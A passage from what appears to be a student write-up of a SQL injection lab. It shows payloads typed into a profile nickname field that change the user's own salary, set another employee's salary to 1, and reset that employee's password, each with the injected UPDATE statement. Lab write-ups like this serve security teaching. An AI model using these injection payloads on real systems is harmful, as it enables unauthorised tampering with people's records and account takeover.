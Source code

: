 Observation: The salary is updated to 100000.

### 4.4.2 Modify Other People's Salary

Payload:

- $input_nickname = `', salary=1 where Name='Boby'; #`

The statement after injection will be:

```sql
UPDATE credential SET
nickname='',
salary=1 where Name='Boby'; #',
```

![](images/4-4-2.png)

Observation: Boby's salary is updated to 1. (viewed from Admin's panel)

### 4.4.3 Modify Other People's Password

Payload:

- $input_nickname = `', Password=sha1('123') where Name='Boby'; #`

The statement after injection will be:

```sql
UPDATE credential SET
nickname='',
Password=sha1('123') where Name='Boby'; #',
```
